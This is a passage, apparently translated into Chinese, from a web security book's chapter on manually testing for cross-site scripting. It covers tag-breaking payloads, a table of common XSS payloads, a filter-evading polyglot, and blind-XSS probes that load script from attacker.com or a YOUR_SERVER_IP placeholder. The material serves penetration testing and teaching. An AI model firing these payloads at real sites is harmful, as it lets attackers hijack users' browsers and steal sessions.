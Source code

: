 为了关闭标签，你的有效载荷必须在 JavaScript 之前包含一个`<img>`标签的结束部分。这个有效载荷可能看起来像这样：

```
"/><script>location="**http://attacker.com**";</script>
```

当被注入到`<img>`标签中时，生成的 HTML 将如下所示（注入部分用粗体标出）：

```
<img src="**"/><script>location="http://attacker.com";</script>"**>
```

这个有效载荷通过提供一个双引号来关闭原本应该包含用户输入的字符串，然后用以`/>`结尾的标签关闭`<img>`标签。最后，该有效载荷在`<img>`标签后注入一个完整的`<script>`标签。

如果您的有效载荷没有生效，可以检查是否是您的有效载荷导致了返回文档中的语法错误。您可以在代理中检查返回的文档，寻找未闭合的标签或其他语法问题。您还可以打开浏览器的控制台，查看浏览器加载页面时是否遇到任何错误。在 Firefox 中，您可以通过右键单击页面，选择**检查元素**▶**控制台**来打开控制台。

您可以在线找到更多常见的 XSS 有效载荷。表 6-1 列出了一些示例。

表 6-1：常见的 XSS 有效载荷

| **有效载荷** | **目的** |
| --- | --- |
| `<script>alert(1)</script>` | 这是最通用的 XSS 有效载荷。如果有效载荷成功，它将生成一个弹出框。 |
| `<iframe src=javascript:alert(1)>` | 这个有效载荷在 iframe 中加载 JavaScript 代码。当 XSS 过滤器禁止使用`<script>`标签时，这非常有用。 |
| `<body onload=alert(1)>` | 这个有效载荷在您的输入字符串无法包含*script*一词时非常有用。它插入一个 HTML 元素，该元素将在加载后自动运行 JavaScript。 |
| `"><img src=x onerror=prompt(1);>` | 这个有效载荷关闭了之前的标签。然后，它插入一个带有无效源 URL 的`<img>`标签。当该标签加载失败时，将运行`onerror`属性中指定的 JavaScript。 |
| `<script>alert(1)<!–` | `<!-`是 HTML 注释的开始。这个有效载荷将注释掉 HTML 文档中剩余的部分，以防止语法错误。 |
| `<a onmouseover"alert(1)">test</a>` | 这个有效载荷插入一个链接，当用户将鼠标悬停在该链接上时，将触发 JavaScript 执行。 |
| `<script src=//attacker.com/test.js>` | 这个有效载荷导致浏览器加载并运行托管在攻击者服务器上的外部脚本。 |

黑客们设计了许多更具创意的有效载荷。可以在线搜索*XSS 有效载荷*获取更多想法。不过，拿着一个长长的有效载荷列表，一一尝试可能既费时又低效。另一种进行手动 XSS 测试的方法是插入*XSS 多重有效载荷*，这是一种能够在多种上下文中执行的 XSS 有效载荷。例如，无论是插入`<img>`标签、`<script>`标签还是通用的`<p>`标签，它都能执行，并且可以绕过一些 XSS 过滤器。看看 EdOverflow 发布的这个多重有效载荷：[`polyglot.innerht.ml/`](https://polyglot.innerht.ml/)：

```
javascript:"/*\"/*`/*' /*</template>
</textarea></noembed></noscript></title>
</style></script>-->&lt;svg onload=/*<html/*/onmouseover=alert()//>
```

这个有效载荷的细节超出了本书的范围，但它包含了多种创建 XSS 的方法——因此，如果一种方法失败，另一种方法仍然可以引发 XSS。

另一种更高效地测试 XSS 的方法是使用通用测试字符串，而不是 XSS 有效载荷。插入一些常用于 XSS 有效载荷的特殊 HTML 字符，例如：`>'<"//:=;!--`。记下哪些字符被应用程序转义，哪些字符直接呈现。然后，您可以根据应用程序未正确清理的字符构造测试 XSS 有效载荷。

盲 XSS 缺陷更难以检测；由于您不能通过查看反射输入来检测它们，因此无法通过尝试生成弹出框来测试它们。相反，尝试让受害者的浏览器生成对您拥有的服务器的请求。例如，您可以提交以下有效载荷，这将使受害者的浏览器请求您服务器上的*/xss*页面：

```
<script src='http://`YOUR_SERVER_IP`/xss'></script>
```

然后，您可以监控服务器日志，查看是否有人请求该页面。如果看到对路径*/xss*的请求，那么一个盲目 XSS 已被触发！像 XSS Hunter（[`xsshunter.com/features`](https://xsshunter.com/features)）这样的工具可以自动化此过程。我们将在第十三章中进一步讨论如何设置服务器以测试多种类型的漏洞。
